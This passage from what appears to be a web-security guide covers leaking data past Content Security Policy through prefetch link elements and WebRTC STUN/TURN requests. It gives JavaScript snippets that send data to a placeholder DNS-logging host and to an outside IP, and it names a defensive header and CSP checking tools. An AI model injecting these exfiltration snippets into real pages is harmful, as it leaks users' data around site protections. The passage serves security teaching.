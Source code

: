 Another way:

```javascript
const linkEl = document.createElement("link")
linkEl.rel = "prefetch"
linkEl.href = urlWithYourPreciousData
document.head.appendChild(linkEl)
```

In order to avoid this from happening the server can send the HTTP header:

```
X-DNS-Prefetch-Control: off
```

> [!NOTE]
> Apparently, this technique doesn't work in headless browsers (bots)

### WebRTC

On several pages you can read that **WebRTC doesn't check the `connect-src` policy** of the CSP.

Actually you can _leak_ informations using a _DNS request_. Check out this code:

```javascript
;(async () => {
  p = new RTCPeerConnection({ iceServers: [{ urls: "stun:LEAK.dnsbin" }] })
  p.createDataChannel("")
  p.setLocalDescription(await p.createOffer())
})()
```

Another option:

```javascript
var pc = new RTCPeerConnection({
  "iceServers":[
      {"urls":[
        "turn:74.125.140.127:19305?transport=udp"
       ],"username":"_all_your_data_belongs_to_us",
      "credential":"."
    }]
});
pc.createOffer().then((sdp)=>pc.setLocalDescription(sdp);
```

## Checking CSP Policies Online

- [https://csp-evaluator.withgoogle.com/](https://csp-evaluator.withgoogle.com)
- [https://cspvalidator.org/](https://cspvalidator.org/#url=https://cspvalidator.org/)

## Automatically creating CSP

[https://csper.io/docs/generating-content-security-policy](https://csper.io/docs/generating-content-security-policy)
